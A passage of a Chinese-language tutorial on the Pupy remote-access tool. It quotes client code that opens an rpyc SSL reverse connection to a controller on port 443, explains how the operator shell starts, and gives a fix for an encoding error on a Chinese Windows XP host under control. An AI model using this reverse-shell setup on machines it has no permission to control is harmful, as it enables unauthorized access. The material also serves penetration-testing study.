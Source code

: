 ![][4]

## 2.生成Kali上的客户端

Windows平台下如果有Python，rpyc，pupy也是类似的

![][5]

{% highlight python %}
rhost,rport=None,None
        tab=HOST.rsplit(":",1)
        rhost=tab[0]
        if len(tab)==2:
            rport=int(tab[1])
        else:
            rport=443
        print "connecting to %s:%s"%(rhost,rport)
        conn=rpyc.ssl_connect(rhost, rport, service = ReverseSlaveService)
{% endhighlight %}

默认是443端口并以冒号分割，再使用rpyc模块进行ssl连接到控制端，循环等待并打印出连接信息

# 0x02 开始

---

直接运行pupy/pupy/pupysh.py便可以启用客户端（pupyshell），自然使用help或?查看帮助

![][6]

在pupysh.py中主要是导入pupylib.PupyServer和pupylib.PupyCmd，分别实例化，并使用PupyCmd继承cmd.Cmd中的cmdloop()方法，来解析并执行命令

{% highlight python %}
...
pupyServer=pupylib.PupyServer.PupyServer()
...
pupyServer.start()
    pcmd=pupylib.PupyCmd.PupyCmd(pupyServer)
    while True:
        try:
            pcmd.cmdloop()
{% endhighlight %}

有趣的是在有中文版xp的受控端进入后，使用clients或sessions命令时均会出现如下错误

![][7]

看是解码错误，便在pupylib/PupyCmd.py中在导入模块后再添加以下代码就okay啦

{% highlight python %}
if sys.getdefaultencoding()!='gbk':
  reload(sys)
  sys.setdefaultencoding('gbk')
{% endhighlight %}


[1]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqkq3zs5j20fz04udfv.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqkqhufcj20fu06jq35.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qqktkwetj20jb0ag7e6.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqku10jvj20gj03t3yf.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqkun131j20k401yaaa.jpg
[6]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqkwl5wzj20jd0bbqdv.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqkxcyafj20lv02ggo7.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqkz4gjij20lu08haja.jpg
[9]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qql0poqij20lw081do1.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qql1r0whj20lu045n19.jpg
[11]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qql2np22j20lv03w42d.jpg
[12]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qql5ang5j20lv0ci7ie.jpg
[13]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qql72v8mj20lv081th9.jpg
[14]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qql7vvmlj20lw02zjup.jpg
[15]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qql8n5xpj20lw0310vg.jpg
[16]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qql9kapbj20lx03kq6k.jpg
[17]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqlaagrqj20lv02kq5g.jpg
[18]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qqlas88jj20lv01at9x.jpg
[19]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqlba60aj20lw00zdgr.jpg
[20]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqlcikiyj20lw05t7ac.jpg
[21]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qqldlgy4j20lt054af7.jpg
[22]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqleovo1j20lv054n26.jpg
[23]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqlg7sqkj20lx06mah3.jpg
[24]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqlgwwdpj20lx01qtaa.jpg
[25]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqlipglzj20lx097ak7.jpg
[26]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqljmrxuj20lx032dj9.jpg
[27]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqll1j1aj20lv069wld.jpg
[28]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqllxe86j20lw03i0w9.jpg
[29]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqlmum4gj20lx03k0wc.jpg
[30]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qqloqu2sj20lu07ljzh.jpg
[31]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqlrbk1rj20lw0d04c6.jpg
[32]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qqlt25u8j20tt0awguk.jpg
[33]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qqlul65bj20p206rwmj.jpg
[34]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qqlvwzrnj20lv04yq7z.jpg